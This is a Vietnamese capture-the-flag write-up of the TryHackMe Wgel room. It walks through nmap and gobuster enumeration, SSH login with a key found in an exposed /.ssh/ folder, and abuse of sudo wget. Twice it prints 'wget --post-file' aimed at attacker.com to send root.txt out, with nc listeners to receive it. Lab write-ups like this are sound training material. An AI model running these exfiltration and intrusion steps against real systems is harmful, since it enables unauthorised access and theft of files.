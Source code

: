 TryHackMe - Wgel CTF Writeup  
Tools used:  
1.Nmap  
2.Dirsearch  
3.Gobuster  
4.GTFOBins  
Scanning and Enumeration  

**LƯU Ý:** Địa chỉ IP của máy sẽ được biểu diễn là `10.10.x.x` vì TryHackMe cấp IP khác nhau cho từng người dùng.  

Giả sử bạn đã có IP của máy, hãy chạy **4 lệnh Nmap** để quét và thu thập thông tin hệ thống.  

Half TCP Scan (Quét TCP một nửa bắt tay)
```
nmap -n -sS -vv -T5 -p 1-20000 10.10.x.x -oN Half-TCP.txt
```
Quét phiên bản / Banner Grabbing  
Sử dụng Nmap để lấy thông tin phiên bản dịch vụ chạy trên các cổng.  
```
nmap -sV --version-all -vv -T5 -p 22,80 10.10.x.x -oN Version-scan.txt
```
Aggressive Scan  
Thực hiện quét nâng cao (Aggressive Scan) để vừa thu thập service, version vừa chạy các script cơ bản.  
```
nmap -A -vv -T5 10.10.x.x -oN Aggressive-scan.txt
```
Nmap NSE Vulnerability Scan  
Dùng Nmap với các script NSE để phát hiện lỗ hổng của dịch vụ trên port. 
```
nmap --script vuln -p 80 10.10.x.x -oN nse-vuln.txt
```
Điểm quan trọng ở đây chính là **Half TCP Scan** và **NSE Scan**:  
- Với **Half TCP Scan**, bạn sẽ biết được bao nhiêu port đang mở.  
- Với **NSE Scan**, bạn sẽ có được một “phác thảo” sơ bộ về những lỗ hổng mà port/dịch vụ đó có thể tồn tại.

Enumeration Website  

Từ đây, bên ngoài hệ thống không còn gì nhiều để khai thác. Chuyển trọng tâm sang website chạy trên **port 80**.  

Khi truy cập website, bạn sẽ thấy trang mặc định Apache2 Ubuntu. Hãy bỏ qua trang đó và bắt đầu enumerate website ngay.  


Bạn có thể dùng **Dirsearch** hoặc **Gobuster** (mình hay dùng Gobuster).  

Dirsearch
```
dirsearch -u http://10.10.x.x/ -t 120
```
Gobuster
```
gobuster dir -u http://10.10.x.x/ -x /path/to/wordlist/ -X /path/to/extension/wordlist -t 120
```
Lý do mình để danh sách extension trong file riêng là để chắc chắn không bỏ sót loại file nào.

Sau khi enumerate, thư mục duy nhất bạn thấy được truy cập là: http://10.10.x.x/sitemap/
Truy cập vào đó, bạn sẽ thấy một trang web.  

Quay lại bước đầu tiên, bạn nên tiếp tục enumerate website bằng **Dirsearch** hoặc **Gobuster** để tìm các file và thư mục có thể truy cập.  
Trong lúc chạy Dirsearch hoặc Gobuster, hãy kiểm tra **source code HTML** của `http://10.10.x.x/sitemap/` vì trong đó có chứa **một username**.  
Sau khi hoàn thành quét với Dirsearch hoặc Gobuster, bạn sẽ tìm thấy thư mục: /.ssh/
Lưu file trong đó và dùng nó để đăng nhập SSH.  


SSH login và Leo thang đặc quyền  

Sau khi đăng nhập thành công qua SSH, hãy lấy ngay **user flag** (thường nằm ở thư mục `/Documents/`).  

Privilege Escalation 
Nếu bạn chạy lệnh: 
```
sudo -l
```
Bạn sẽ thấy rằng user được phép chạy wget với đặc quyền cao.
Khai thác (Privilege Escalation)

Để khai thác, chạy lệnh sau:
```
URL=http://attacker.com/
LFILE=file_to_send
wget --post-file=$LFILE $URL
```
--post-file : tuỳ chọn này sẽ gửi toàn bộ nội dung file (ví dụ: /root/root.txt) đến địa chỉ IP + port bạn chỉ định thông qua HTTP POST request.

LFILE : thay bằng đường dẫn của file mà bạn muốn đọc.

URL : thay bằng địa chỉ IP và port của máy tấn công (nơi bạn mở listener).


Trên máy tấn công (Kali)
Mở listener để chờ dữ liệu:
```
nc -lvnp 9999
```
```
ncat -lvnp 9999
```
Sau khi thiết lập listener, nhấn Enter và bạn sẽ thấy **root flag** được gửi về máy tấn công.  

Kết luận  

Nếu có điều gì chúng ta học được hôm nay, thì đó là:  
Ta có thể đọc và gửi nội dung của một file về máy của mình thông qua **HTTP POST request** bằng cách sử dụng lệnh:  
```
URL=http://attacker.com/
LFILE=file_to_send
wget --post-file=$LFILE $URL
```
Chúng ta không thực sự leo thang đặc quyền bằng `wget`, tuy nhiên chúng ta đã **lợi dụng/abuse quyền SUID** để đọc được nội dung của các file bị hạn chế.  
